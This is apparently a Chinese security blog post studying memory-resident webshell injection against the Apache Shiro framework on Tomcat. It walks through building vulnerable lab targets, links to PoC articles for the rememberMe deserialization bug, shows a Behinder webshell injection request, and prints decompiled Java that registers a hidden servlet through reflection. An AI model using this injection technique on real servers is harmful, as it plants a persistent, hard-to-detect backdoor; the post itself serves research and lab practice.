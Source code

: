 ```yaml
---
layout: help
category: help
mirrorid:  基于内存的Shiro框架Webshell攻击研究
toc: true
permalink: /help/Research-on-Webshell-Attack-of-Shiro-Framework-Based-on-Memory/
---
```


# 基于内存的Shiro框架Webshell攻击研究

- ✅Shiro框架部署
    * IDEA tomcat调试部署
    * docker compose
- ✅Shiro框架攻击
    * 手动poc
    * 工具poc
- ✅基于tomcat的通用回显
    * tomcat冰蝎内存马
        * 利用原理
        * 攻击测试
- ✅给👴连！


## 零：Shiro框架部署
现如今部署一个靶场的方法有很多，取决于个人喜好和需求；我结合个人能力做出了一些总结：

{: .table}
特点\部署办法 | 1.docker-compose | 2.IDEA tomcat调试部署 | 3.「docker+IDEA」
-------|-------|-------|-------
快捷程度 | 几条命令快捷部署 | 需开放调试端口+tomcat war包(如无则需源码构建) | 你懂的
能否调试 | ❎ | ✅ | ✅
自定义靶场（如页面） | ❎ | ✅ | ✅ 

#### # 0x01：IDEA tomcat调试部署
本篇文章会侧重描述如何进行针对IDEA的tomcat调试部署；

- 克隆源码
  * 以shiro-721为例：
    ```
    git clone https://github.com/apache/shiro.git
    cd shiro
    git checkout shiro-root-1.4.1
    mvn install
    cd samples/web
    mvn install
    ```
  * 找到`{path-to-shiro}/samples/web/target`目录下的war包复制到tomcat webapps目录下：
    ```
    $ tree
    target
    ··
    │   ├── index.jsp
    │   ├── login.jsp
    │   ├── logout.jsp
    │   └── style.css
    ├── samples-web-1.4.1.war
    
    $ cp samples/web/target/samples-web-1.4.1.war {path-to-tomcat}/webapps/
    ```
- 开放tomcat调试端口：
    * 找到`bin/catalina.sh`文件中的`JAVA_OPTS`（会有多个），修改如下：
    ```
      JAVA_OPTS="$JAVA_OPTS $JSSE_OPTS"
      
      # Register custom URL handlers
      # Do this here so custom URL handles (specifically 'war:...') can be used in the security policy
      JAVA_OPTS="$JAVA_OPTS -Djava.protocol.handler.pkgs=org.apache.catalina.webresources"
      CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y"
      #上面的CATALINA_OPTS为新增；address为调试端口，可自行更改。
    ```
    * `bin/startup.sh`启动，看到以下日志打印则开放调试成功：
    ```
      $ tail -f logs/catalina.out
      Listening for transport dt_socket at address: 5555
      10-Mar-2021 09:51:16.763 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log Server.服务器版本: Apache Tomcat/8.5.57
      ···
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xdebug
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y
    ```
- IDEA+tomcat调试：
    * IDEA配置（添加server时为`Tomcat Server`->`Remote`）：
    ![](/static/web-image/webshell-mem/idea-tomcat-conf.png)
    * 如下图，加上`home.jsp`断点后进行http请求，可以看到IDEA中返回的frames详情；
    ![](/static/web-image/webshell-mem/remote-debug-pic.png)
    
这样基本上一个基本的IDEA+tomcat的调试配置过程基本就完成了，当然，这只是调试前的准备工作，大家多练习几次，基本上就能够熟练掌握；而最重要的以及最难的其实是调试阶段，
调试过程中的一些技巧和能力是在一次次的实践中沉淀下来的，在这里仅仅当作抛砖引玉，不做赘述。

#### # 0x02：docker compose部署

- 准备工作
    * 根据不同操作系统下载安装docker；
    * 安装`python->pip->docker-compose`，教程自行搜索:)
- 下载靶场
    * vulhub based on docker：
    ```
      $ git clone https://github.com/vulhub/vulhub.git
      $ cd vulhub/shiro/CVE-2016-4437/
      $ docker-compose up -d
    ```
等待启动即可。

## 一：Shiro框架攻击
poc代码生成攻击cookie可以参考之前的文章：
#### 1x01：手动poc
[分享：Different Shiro Framework deserialization analysis ideas#how to poc](/help/ShiroDeser/#2x03how-to-poc){:target="_blank"}
#### 1x02：工具poc
[分享：Different Shiro Framework deserialization analysis ideas#验证](/help/ShiroDeser/#%E4%BA%8C%E9%AA%8C%E8%AF%81){:target="_blank"}

## 二：基于tomcat的通用回显之冰蝎内存马
这一小节由于个人水平有限，不能像各位师傅一样从tomcat servlet等层面一探究竟，我尽量使用简洁的语言写出我的理解；
#### # 2x01：攻击测试
工具直接选择"冰蝎2_Tomcat"，执行注入；
- http发包请求如下：
![](/static/web-image/webshell-mem/behinder-post-request.png)
我们可以看到HTTP请求为POST请求`p`&`path`&`dy`数据；同时header中加入了`rememberMe Cookie`；

- 分析：
Cookie是作为反序列化的入口，`dy`参数应该是写入内存的命令

同时最后返回`dynamic inject success`；

- 注入成功效果：
![](/static/web-image/webshell-mem/webshell-mem-display.png)

#### # 2x02：利用原理
我们把利用工具的jar包扔进反编译软件定位到`BehOldDemoServlert.class`，我们来看看代码是怎么工作的：
```java
  public void dynamicAddServlet(ServletContext servletContext) throws Exception {
    Method method;
    String wrapperName = this.path;
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade)servletContext;
    Field applicationContextField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)standardContextField.get(applicationContext);
    Object newWrapper = invoke(standardContext, "createWrapper", (Object[])null);
    invoke(newWrapper, "setName", new Object[] { wrapperName });
    setFieldValue(newWrapper, "instance", this);
    Class<?> containerClass = Class.forName("org.apache.catalina.Container", false, standardContext.getClass().getClassLoader());
    Object oldWrapper = invoke(standardContext, "findChild", new Object[] { wrapperName });
    if (oldWrapper != null)
      standardContext.getClass().getDeclaredMethod("removeChild", new Class[] { containerClass }); 
    standardContext.getClass().getDeclaredMethod("addChild", new Class[] { containerClass }).invoke(standardContext, new Object[] { newWrapper });
    try {
      method = standardContext.getClass().getMethod("addServletMappingDecoded", new Class[] { String.class, String.class });
    } catch (Exception var9) {
      method = standardContext.getClass().getMethod("addServletMapping", new Class[] { String.class, String.class });
    } 
    method.invoke(standardContext, new Object[] { this.path, wrapperName });
    init((ServletConfig)getFieldValue(newWrapper, "facade"));
  }
```

